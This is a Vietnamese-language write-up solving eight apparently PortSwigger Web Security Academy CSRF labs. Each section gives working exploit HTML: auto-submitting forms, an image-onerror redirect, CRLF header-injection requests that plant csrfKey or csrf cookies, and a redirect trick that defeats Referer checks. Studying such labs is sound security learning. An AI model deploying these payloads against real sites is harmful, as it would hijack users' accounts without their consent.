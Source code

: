 # 1. CSRF vulnerability with no defenses
Vào exploit server, cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0afb00eb04d9b8bec0d9405a00290069.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker2@email.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 2. CSRF where token validation depends on request method
Request thay đổi email là `POST /my-account/change-email` với hai tham số `email` và `csrf`. Tuy nhiên nhận thấy nếu ta thay đổi request thành `GET /my-account/change-email?email=attacker%40gmail.com`, cho dù không có tham số `csrf` thì email vẫn bị thay đổi thành công

Vào exploit server cấu hình đoạn XML sau:

```
<img src=1 onerror="document.location='https://0a06005e03421b53c1c14436007600ad.web-security-academy.net/my-account/change-email?email=attacker@gmail.com'">
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 3. CSRF where token validation depends on token being present
Ta thấy khi trong request không có tham số `csrf`, email vẫn bị thay đổi. Như vậy ta vào exploit server và cấu hình đoạn HTML:

```
<form method="POST" action="https://0a35003f047cea06c1019ee1003c006c.web-security-academy.net/my-account/change-email" id="form">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
```
Sau khi click "Deliver to victim", bài lab được giải thành công.

# 4. CSRF where token is not tied to user session
Đăng nhập vào tài khoản wiener:peter rồi vào trang "My account", lưu lại csrf token. Sau đó logout rồi đăng nhập vào tài khoản carlos:montoya, dùng session của carlos và csrf token đã lưu của wiener để submit một request `POST /my-account/change-email`. Kết quả email bị thay đổi. Như vậy giữa csrf và session không có mối liên hệ với nhau. Với một csrf token chưa được sử dụng, ta có thể submit với bất kỳ session nào.

Ta đăng nhập lại tài khoản wiener:peter, lưu lại csrf token là `w9lcvACTQ0fT30znoZiPT42ILgGHkFnF`, sau đó và exploit server để cấu hình đoạn HTML sau:

```
<form id="form" method="POST" action="https://0a1a008e03260d9ac1a3879500b300b3.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="w9lcvACTQ0fT30znoZiPT42ILgGHkFnF">
</form>

<script>form.submit();</script>
```

Sau khi click "Deliver to victim", bài lab được giải thành công.

# 5. CSRF where token is tied to non-session cookie
Ta thấy trong form thay đổi email có chứa csrf token, tuy nhiên token này phụ thuộc vào cookie `csrfKey`, miễn là `csrfKey` và thuộc tính `csrf` phù hợp với nhau thì có thể submit thành công.

Trong chức năng search của website, thử `/?search=abc` thì thấy trong response có header `Set-Cookie: LastSearchTerm=abc; Secure; HttpOnly`. Ta sẽ thử xem có thể thiết lập một cookie mới với chức năng Search hay không. Gửi request `GET /?search=abc%0D%0ASet-Cookie:+abc%3Ddef`, ta thấy header `Set-Cookie` trong response đã bị xuống dòng và thêm một header Set-Cookie mới:

![image](https://user-images.githubusercontent.com/103978452/209636281-7492097f-eaf0-4cda-bf42-fcd4fbda9dd6.png)

Như vậy, ta thử ghi đè lên cookie csrfKey bằng cách gửi request: `GET /?search=abc%0D%0ASet-Cookie%3A+csrfKey%3D4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx%3B+Path%3D%2F%3B+SameSite%3DNone`.

Kết quả như sau:

![image](https://user-images.githubusercontent.com/103978452/209636456-760b8977-96e6-4c40-85f9-94220d22f43b.png)

Như vậy, ta có thể thay đổi cookie csrfKey của nạn nhân. Ta có kịch bản tấn công như sau:

1) Từ session của mình, lấy ra cookie `csrfKey=4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx` và token `csrf=Bt0qvdZVXoUpfTmoDGy54RJIxytRR1SP`
2) Dùng tag `<img>` để thay đổi cookie `csrfKey` của nạn nhân
3) Gửi request đổi email với csrf token đã có

Vào exploit server và cấu hình đoạn HTML sau:
```
<img src="https://0aa900e403ad1a02c0b0125d00b000d9.web-security-academy.net/?search=abc%0D%0ASet-Cookie%3A+csrfKey%3D4tSIrRxNcvsF3dGtffgvaYuQI6DOfybx%3B+Path%3D%2F%3B+SameSite%3DNone">
<form id="form" method="POST" action="https://0aa900e403ad1a02c0b0125d00b000d9.web-security-academy.net/my-account/change-email">
<input type="hidden" value="attacker00022@gmail.com" name="email">
<input type="hidden" value="Bt0qvdZVXoUpfTmoDGy54RJIxytRR1SP" name="csrf">
</form>
<script>form.submit()</script>
```

Sau khi click "Deliver to victim", kết quả thành công.

# 6. CSRF where token is duplicated in cookie
Ta thấy chỉ cần cookie `csrf` và csrf token trong request là hai chuỗi giống nhau thì request đổi email sẽ thành công. Và trong website vẫn có lỗi chèn thêm header như trong lab #5.

Để thay đổi cookie `csrf=abc`, ta gửi request sau:
```
GET /?search=abc%0d%0aSet-Cookie%3A+csrf%3Dabc%3B+Path%3D%2F%3B+SameSite%3DNone HTTP/1.1
```

Vào trong exploit server và cấu hình đoạn HTML sau:
```
<img src="https://0a1f008803dca8b6c277137100120000.web-security-academy.net/?search=abc%0d%0aSet-Cookie%3A+csrf%3Dabc%3B+Path%3D%2F%3B+SameSite%3DNone">
<form id="form" method="POST" action="https://0a1f008803dca8b6c277137100120000.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
<input type="hidden" name="csrf" value="abc">
</form>
<script>form.submit()</script>
```

Sau khi submit, bài lab được giải thành công.

# 7. CSRF where Referer validation depends on header being present
Ta thấy việc email có được thay đổi thành công hay không phụ thuộc vào việc Referer header có domain là `https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net` hay không. Tuy nhiên nếu ta xóa đi Referer header, email vẫn bị thay đổi.

Như vậy, ta vào exploit server và cấu hình đoạn HTML sau:
```
<html>
<head>
<meta name="referrer" content="never">
</head>
<body>
<form id="form" method="POST" action="https://0a90007603f431c2c167ad45006f00b0.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="attacker@gmail.com">
</form>

<script>form.submit()</script>
</body>
</html>
```

Thẻ `<meta name="referrer" content="never">` sẽ ngăn không đưa dữ liệu vào header Referer của request tiếp theo. Sau khi click "Deliver to victim", kết quả thành công. 

# 8. CSRF with broken Referer validation
Trong chức năng thay đổi email, sau một vài lần check thì ta nhận thấy chỉ khi trong header `Referrer` có chuỗi `0a7d0068037fd0c0c2b20d6200f60041.web-security-academy.net` thì mới có thể submit thành công.

Như vậy, ta vào exploit server và cấu hình đoạn code sau:
```
<form id="form" method="POST" action="https://0a7d0068037fd0c0c2b20d6200f60041.web-security-academy.net/my-account/change-email">
<input type="hidden" name="email" value="hello@gmail.com">
</form>
<script>
if(document.location.search==''){
  document.location="https://exploit-0ac8005903fbd08ac2770c95014d0097.exploit-server.net/exploit?query=0a7d0068037fd0c0c2b20d6200f60041.web-security-academy.net"
}else{
  form.submit();
}
</script>
```

Đoạn code trên đầu tiên sẽ đưa người dùng đến `<exploit-server>/exploit`, sau đó tự động chuyển hướng đến `<exploit-server>/exploit?query=0a7d0068037fd0c0c2b20d6200f60041.web-security-academy.net`, cuối cùng mới submit form để tấn công CSRF. Ta cấu hình HTTP header `Referrer-Policy: unsafe-url` để Referrer header chứa cả query string.

Sau khi submit, kết quả thành công.
